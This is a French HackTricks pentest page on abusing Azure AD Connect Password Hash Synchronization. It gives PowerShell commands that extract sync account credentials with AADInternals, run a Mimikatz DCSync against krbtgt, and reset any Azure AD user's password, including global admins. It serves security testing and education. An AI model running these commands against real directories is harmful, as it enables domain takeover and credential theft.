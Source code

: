 # PHS - Synchronisation de hachage de mot de passe

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Informations de base

La **synchronisation de hachage de mot de passe** est l'une des méthodes de connexion utilisées pour accomplir l'identité hybride. Azure AD Connect synchronise un hachage, du hachage, du mot de passe d'un utilisateur à partir d'une instance Active Directory sur site vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

C'est la méthode **la plus courante** utilisée par les entreprises pour synchroniser un AD sur site avec Azure AD.

Tous les **utilisateurs** et un **hachage des hachages de mot de passe** sont synchronisés de l'AD sur site vers Azure AD. Cependant, les **mots de passe en clair** ou les **hachages originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** vers Azure AD.

La **synchronisation de hachages** se produit toutes les **2 minutes**. Cependant, par défaut, **l'expiration du mot de passe** et **l'expiration du compte** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe sur site a expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur sur site souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **Identity Protection** et AAD Domain Services.

## Pivotement

Lorsque PHS est configuré, certains comptes **privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD sur site. Ce compte reçoit un rôle **Directory Synchronization Accounts** (voir la [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD sur site**.
* Un compte **`Sync_<nom du serveur ADConnect sur site>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé**. Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.

Si le **serveur où Azure AD Connect est installé** est joint au domaine (recommandé dans la documentation), il est possible de le trouver avec :

```powershell
# Module ActiveDirectory
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

# Module Azure AD
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### AzureAD -> Sur site

```powershell
# Une fois que le serveur Azure AD connect est compromis, vous pouvez extraire les informations d'identification avec le module AADInternals
Get-AADIntSyncCredentials

# En utilisant les informations d'identification du compte MSOL_*, vous pouvez exécuter DCSync contre l'AD sur site
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

### Sur site -> AzureAD

En compromettant le compte `Sync_*`, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les administrateurs globaux)

```powershell
# Cette commande, exécutée précédemment, nous donnera également les informations d'identification de ce compte
Get-AADIntSyncCredentials

# Obtenir un jeton d'accès pour le compte Sync_*
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Obtenir les administrateurs globaux
Get-AADIntGlobalAdmins

# Obtenir l'ImmutableId d'un utilisateur sur site dans Azure AD (c'est l'identifiant unique dérivé du GUID sur site)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Réinitialiser le mot de passe de l'utilisateur
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Il est maintenant possible d'accéder à Azure AD avec le nouveau mot de passe et sur site avec l'ancien (les changements de mot de passe ne sont pas synchronisés)
```

Il est également possible de **modifier les mots de passe des utilisateurs uniquement cloud** (même si cela est inattendu)

```powershell
# Pour réinitialiser le mot de passe d'un utilisateur uniquement cloud, nous avons besoin de leur CloudAnchor qui peut être calculé à partir de leur cloud objectID
# Le CloudAnchor est au format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Réinitialiser le mot de passe
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

### Seamless SSO

Il est possible d'utiliser Seamless SSO avec PTA, qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-pe
